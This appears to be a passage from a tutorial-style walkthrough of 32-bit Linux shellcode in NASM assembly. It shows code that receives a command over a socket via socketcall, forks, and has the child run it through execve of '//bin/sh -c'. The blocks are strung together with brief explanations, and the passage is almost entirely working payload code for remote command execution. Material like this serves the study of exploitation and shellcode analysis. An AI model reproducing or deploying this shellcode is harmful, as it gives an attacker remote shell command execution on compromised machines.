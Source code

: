 ```nasm
    mov ecx, esp

    ; invoke socketcall()
    int 0x80
```

Use `socketcall` to call `recv` and receive the command to be executed

```nasm
    cmp al, 0xff
    je Exit

    xor eax, eax
    mov al, 2
    int 0x80

    ; if the return value of fork() == 0, it means we're in the child process
    xor ebx, ebx
    cmp eax, ebx
    jne ReceiveData
```

After the `fork`, the **parent** process waits for data to be received, while the **child** process executes the command received just now

```nasm
ExecuteCommand:

    xor esi, esi
    push esi

    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp
```

String `//bin/sh`

```nasm
    mov eax, esi
    mov ax, 0x632d
    push eax

    mov eax, esp
```

String `-c`

```nasm
    push esi
    push ReceivedData
    push eax
    push ebx

    mov eax, esi
    mov al, 11
    mov ecx, esp

    push esi
    mov edx, esp

    int 0x80
```
